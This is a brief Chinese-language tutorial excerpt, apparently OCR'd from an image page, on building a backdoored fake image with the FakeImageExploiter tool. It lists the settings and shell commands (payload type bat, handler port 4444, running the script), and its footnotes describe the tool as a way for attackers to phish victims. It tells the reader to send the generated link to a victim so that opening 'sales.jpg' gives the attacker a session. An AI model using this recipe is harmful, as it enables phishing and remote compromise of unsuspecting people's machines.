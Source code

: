## 使用FakeImageExploiter图像嵌入式后门程序 [^1]

`cat settings` [^2]

`AUTO_PAYLOAD_BUILD=YES`

`AGENT_HANLER_PORT=4444`

`cd FakeImageExploiter`

`./FakeImageExploiter.sh` [^3]

[原文](https://www.hackingarticles.in/embedded-backdoor-image-using-fakeimageexploiter/)

---

[^1]: 它的设计使攻击者更容易通过生成带有隐藏的恶意.bat / .exe文件的虚假图像来执行网络钓鱼或社会工程攻击. [项目地址](https://www.hackingarticles.in/embedded-backdoor-image-using-fakeimageexploiter/)
[^2]: 在这里，您必须声明要用于在图像中隐藏它的有效负载扩展的类型。您可以在这四个中设置任何扩展名：ps1，bat，txt，exe。我设置**PAYLOAD_EXETNSION = bat**同样设置**BYPASS_RH = NO** . 
[^3]: 执行一系列选择操作后生成一个**链接**，您可以从屏幕截图的突出显示部分观察它，然后将此链接发送给受害者。现在受害者将下载zip文件并单击输出的图片**sales.jpg**即可建立会话
